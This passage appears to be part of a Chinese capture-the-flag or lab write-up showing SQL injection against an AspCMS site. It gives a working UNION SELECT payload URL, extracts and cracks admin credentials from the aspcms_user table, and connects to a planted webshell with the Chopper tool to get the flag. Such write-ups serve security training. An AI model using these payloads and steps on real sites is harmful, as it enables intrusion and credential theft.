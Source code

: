   1.2 确定显示位

  因为这个数据库是access，确定显示位的时候需要在语句后面添加From。
  从网上搜索得知aspcms的默认用户表为aspcms_user。
  `http://ip/admin/_content/_About/AspCms_AboutEdit.asp?
  id=88%20Union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,
  20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35%20From%20aspcms_user`

  ![aspcms_displaycolumns.png](imgs/aspcms_displaycolumns.png)

  得到显示位6,10,11,12,24

  1.3 确定登陆账号密码

  将任意显示位替换成aspcms_user表中默认的字段名称loginname、password
  得到账号aaa、密码4f589f4867dbd57e，解密后为aaa。

  到后台登陆的时候提示不是管理员，于是在payload后面加入`where userid=1`。
  得到账号admin,密码121b28fa741f0976，解密为4rfv3edc2wsx1qaz。
  担心还有其他账号，于是用burpsuite遍历了一下，userid=1的是admin,userid=10的是aaa

  用admin登陆后进入模板页面，发现有了1.asp;.html文件，菜刀连接后得到key。
